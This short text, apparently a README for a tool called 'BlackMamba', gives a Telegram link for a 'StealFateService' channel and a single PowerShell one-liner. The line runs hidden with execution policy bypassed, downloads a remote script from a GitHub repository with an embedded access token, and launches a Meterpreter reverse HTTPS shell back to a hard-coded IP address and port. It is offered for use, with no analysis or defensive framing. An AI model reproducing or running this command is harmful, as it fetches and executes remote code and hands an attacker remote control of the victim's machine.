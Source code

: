 # BlackMamba
https://t.me/StealFateService
Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/AidBotnet/BlackMamba/main/invoke--Shellcode.ps1?token=ARZH7OCHAP66WM6HHNPUVITBLPQXA'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 195.2.74.142 -Lport 1337 -Force
